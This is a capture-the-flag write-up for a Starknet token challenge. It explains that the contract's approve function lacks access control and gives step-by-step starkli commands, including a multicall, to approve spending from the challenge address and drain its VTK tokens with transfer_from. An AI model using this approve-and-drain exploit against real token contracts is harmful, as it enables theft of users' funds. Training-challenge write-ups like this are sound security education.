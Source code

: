 _Get the challenge class hash:_

```bash
starkli call 0x5141d769ce5dffd00a2cbd210c41a443360d68fd19a050c8cba22224d786918 $(starkli selector get_challenge_class_hash) <challenge_number>
```

The `approve( ref self: ContractState, owner: ContractAddress, spender: ContractAddress, amount: u256)` lacks access-control, anyone can approve token spending on behalf of anybody.

1. Deploy the challenge:

Challenge address: <challenge_addr>

2. Get the vtoken address (through explorer or starkli):

   ```bash
    starkli call 0x1dc497b8fb03b9effe2dfc5fdb65dea153e41c558e9825c9374935f36945d48 $(starkli selector get_vtoken_address)
   [
    "0x053dcd9f8332da68368d3be70fa2434704dda44265631571953413f8a48620e8"
   ]
   ```

3. Approve the spending of `u256:100000000000000000000` from `<challenge_addr>` by yourself (`0x0558d69359aC03Ca4B900bE7e686220D09e82A83010757071e62a088aE86122b`, here):

   ```bash
   starkli invoke 0x053dcd9f8332da68368d3be70fa2434704dda44265631571953413f8a48620e8 $(starkli selector approve) 0x1dc497b8fb03b9effe2dfc5fdb65dea153e41c558e9825c9374935f36945d48 0x0558d69359aC03Ca4B900bE7e686220D09e82A83010757071e62a088aE86122b u256:100000000000000000000
   ```

4. Drain all $VTK from the challenge with `transfer_from(ref self: ContractState, sender: ContractAddress, recipient: ContractAddress, amount: u256)`:
   ```bash
   starkli invoke 0x053dcd9f8332da68368d3be70fa2434704dda44265631571953413f8a48620e8 $(starkli selector transfer_from) 0x1dc497b8fb03b9effe2dfc5fdb65dea153e41c558e9825c9374935f36945d48 0x0558d69359aC03Ca4B900bE7e686220D09e82A83010757071e62a088aE86122b u256:100000000000000000000 --watch
   ```

It can be done with a multicall:

```bash
starkli invoke 0x053dcd9f8332da68368d3be70fa2434704dda44265631571953413f8a48620e8 $(starkli selector approve) 0x1dc497b8fb03b9effe2dfc5fdb65dea153e41c558e9825c9374935f36945d48 0x0558d69359aC03Ca4B900bE7e686220D09e82A83010757071e62a088aE86122b u256:100000000000000000000 / 0x053dcd9f8332da68368d3be70fa2434704dda44265631571953413f8a48620e8 $(starkli selector transfer_from) 0x1dc497b8fb03b9effe2dfc5fdb65dea153e41c558e9825c9374935f36945d48 0x0558d69359aC03Ca4B900bE7e686220D09e82A83010757071e62a088aE86122b u256:100000000000000000000 --watch
```

5. Verify the solution and mint the NFT

### INSECURE DEX

_Back to [recap](#recap)_

:warning: Currently not working on Sepolia :warning:
